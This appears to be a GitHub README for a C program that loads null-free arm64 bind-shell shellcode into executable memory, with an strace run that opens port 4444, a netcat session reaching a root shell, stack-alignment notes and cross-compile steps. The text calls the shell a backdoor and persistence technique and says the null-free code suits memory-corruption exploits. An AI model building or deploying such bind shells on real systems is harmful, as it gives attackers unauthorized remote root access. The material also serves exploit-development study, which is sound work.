 # arm64_bind_shellcode
C program to map arm64 bind shell code into memory and execute code

## This will only work on target arm64 device running Linux. Fixed stack management issues in original assembler code.

Source code for mapping bind shell code into memory and executing the mapped shell code.
The arm64 code was tested on a Raspberry Pi running Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-1062-raspi2 aarch64).

## License

Please see the (LICENSE) file for the exact details.

## bind-shellcode-mapped 

## About

The C program bind-shellcode-mapped loads an array of arm-64 bind shell code and execute in memory mapped location.  After relocating the shell code this code is invoked as a C function. A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine.

This will demonstrate how to create a bind shell then move further to create the bind shell and map it into memory.  This program will accept incoming connection a execute a shell to the remote connection.

Now the shell code assembler source code has been modified to directly perform the system call by substituting the execve with the linux system call number.  Additionally, the null bytes have been removed from the code.  This will allow the shell code to be used to exploit memory corruption vulnerabilities.

This program can be ran as a shell or root user.

In the first terminal on the arm64 trget start the bind shell code mapped program

    On the Target run the bind-shellcode-mapped program
    Start the server as root on the target
    $ su
    passphrase
    # strace -e execve,socket,bind,listen,accept,dup2 ./bind-shellcode-mapped 
    execve("./bind-shellcode-mapped", ["./bind-shellcode-mapped"], 0xfffff57e5850 /* 19 vars */) = 0
    Shellcode Length: 164 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 2)                            = 0
    accept(3, NULL, NULL)                   = 4
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15079, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15080, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

In another terminal on the arm64 target use netstat to identify the active ports on the target.   The program bind-shell can be seen running on port 4444.  Next start netcat to connect to port 4444.  If the connection succeeds user interaction will reveal a root shell (without prompt) as shown below.
       
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    
    $ netcat -nv 0.0.0.0 4444
    Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
    whoami 
    root
    id
    exit

## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.

// Broken AArch64 implementation of `push {x1}; push {x0};`.
str   x1, [sp, #-8]!  // This works, but leaves `sp` with only 8-byte alignment
str   x0, [sp, #-8]!  // ... so the second `str` will fail.

C compilers will typically reserve stack space at the start of the function, then leave sp alone until the end, so the restriction is not as awkward as it first seems. However, you must be aware of it when handling assembly code.

It sounds wasteful – and in most cases it is – but the simplest way to handle the stack pointer can be to push each value to a 16-byte slot. This doubles the stack usage (for pointer-sized values), and it effectively reduces the available memory bandwidth. It is also awkward to implement multiple-register operations using this scheme, since each register requires a separate instruction.

## Sources: sc_mapped

Credit to Ken Kitahara for the use of his source code.

https://packetstormsecurity.com/files/153461/Linux-ARM64-Bind-4444-TCP-Shell-bin-sh-Null-Free-Shellcode.html

Max Compston, Embedded Software Solutions.

## Building this Release

The source code for this program is built using CMake.  

The source code for the arm64 target are cross compiled using gnu arm64 compiler, below.  First in install the cross-compiler on the host.

$ sudo apt-get install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu

Next, set up the host to cross-compile arm64 creating a toolchain-aarch64-linux-gnu.cmake file in your home directory.  Add the following:

#- this one is important
SET(CMAKE_SYSTEM_NAME Linux)
SET(CMAKE_SYSTEM_PROCESSOR arm64)

#- specify the cross compiler
SET(CMAKE_C_COMPILER   /usr/bin/aarch64-linux-gnu-gcc)
SET(CMAKE_CXX_COMPILER /usr/bin/aarch64-linux-gnu-g++)

#- where is the target environment
SET(CMAKE_FIND_ROOT_PATH  /user/aarch64-linux-gnu)

#- search for programs in the build host directories
SET(CMAKE_FIND_ROOT_PATH_MODE_PROGRAM NEVER)

#- for libraries and headers in the target directories
SET(CMAKE_FIND_ROOT_PATH_MODE_LIBRARY ONLY)
SET(CMAKE_FIND_ROOT_PATH_MODE_INCLUDE ONLY)

To build the cross-compiled arm64 program navigate to the build directory and run cmake as follows:

$ cmake -DCMAKE_TOOLCHAIN_FILE=~/toolchain-aarch64-linux-gnu.cmake .. && make
